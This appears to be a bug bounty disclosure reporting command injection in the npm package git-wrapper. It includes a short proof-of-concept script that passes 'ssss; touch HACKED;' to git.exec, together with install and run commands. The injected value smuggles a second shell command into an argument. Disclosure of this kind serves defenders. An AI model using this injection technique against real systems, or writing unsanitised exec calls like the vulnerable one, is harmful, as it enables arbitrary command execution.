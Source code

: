 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here:

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var Git = require("git-wrapper");
var git = new Git();
git.exec("ssss; touch HACKED;", [], function (err, s) {});
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i git-wrapper # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created
